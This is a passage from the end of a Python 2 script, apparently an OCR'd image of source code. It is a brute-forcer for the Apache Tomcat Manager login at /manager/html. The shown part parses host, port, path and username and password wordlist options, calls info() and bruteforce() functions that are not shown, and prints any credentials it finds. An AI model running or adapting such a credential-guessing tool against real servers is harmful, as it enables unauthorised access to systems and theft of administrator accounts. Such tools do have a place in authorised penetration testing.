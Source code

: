 ```python
                handle.close()

    if len(creds) > 0:
        print "## Summary ##"
        print creds
    else:
        print "## No passwords found ##"

def main():
    port = 8080 
    path = "/manager/html"
    log_file = "tomcat.log"
    
    try:
        opts, args = getopt.getopt(sys.argv[1:], "h", ["help", "host=", "port=", "path=", "usr=", "pwd="])
    except getopt.GetoptError as err:
        print str(err)
        usage()
        exit(1)
    
    for opt, arg in opts:
        if opt in ("-h", "--help"):
            usage()
            exit(0)
        elif opt == "--host":
            host = arg
        elif opt == "--port":
            port = int(arg)
        elif opt == "--path":
            path = arg
        elif opt == "--usr":
            usr_path = arg
        elif opt == "--pwd":
            pwd_path = arg
        else:
            assert False, "unhandled option"
    
    if len(opts) == 0:
     usage()
     exit(0)

    info(host, port, path, usr_path, pwd_path)
    bruteforce(host, port, path, usr_path, pwd_path, log_file)

if __name__ == "__main__":
    main()
```